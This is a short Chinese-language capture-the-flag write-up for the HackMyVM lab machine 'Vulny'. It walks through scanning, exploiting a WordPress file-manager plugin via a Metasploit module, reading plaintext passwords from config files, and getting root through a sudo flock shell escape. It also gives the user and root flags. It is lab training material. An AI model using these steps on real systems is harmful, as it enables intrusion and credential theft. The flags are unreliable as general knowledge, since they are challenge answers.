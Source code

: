 # Vulny

2024-11-05 https://hackmyvm.eu/machines/machine.php?vm=Vulny

## IP

192.168.5.40

## Scan

```
PORT      STATE SERVICE
80/tcp    open  http
33060/tcp open  mysqlx
```

先看 80 web 服务，主页无内容，gobuster 进行扫描，发现 secret 目录，访问 http://192.168.5.40/secret/ 提示出现错误：/etc/wordpress/config-192.168.5.40.php nor /etc/wordpress/config-168.5.40.php 提示密码在 /etc/wordpress 的相关文件中。

对 secret 对其进行目录扫描，发现 wordpress，对其扫描，发现了一个插件 wp-file-manager-6.O 寻找其是否有漏洞可以利用，在 msf 中找到了 exploit/multi/http/wp_file_manager_rce 可以进行利用，得到了 web shell。

进入到 /etc/wordpress 文件夹中，发现了数据库连接文件：

```
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'myfuckingpassword');
define('DB_HOST', 'localhost');
define('DB_COLLATE', 'utf8_general_ci');
define('WP_CONTENT_DIR', '/usr/share/wordpress/wp-content');
?>
```

发现 /home 目录中的用户 adrian , 尝试密码是否有重用 myfuckingpassword 发现密码不对，在去查看 /usr/share/wordpress/wp-content 中的 wp-config.php 配置文件，发现其中有一个注释像是密码: idrinksomewater , 尝试 su adrian 输入 idrinksomewater 成功切换到该用户。

得到了 user flag：

```
adrian@vulny:~$ cat user.txt
HMViuploadfiles
```

sudo -l 发现 (ALL : ALL) NOPASSWD: /usr/bin/flock 进行利用：

```
adrian@vulny:~$ sudo /usr/bin/flock -u / /bin/sh
# cd /root
# cat root.txt
HMVididit
```

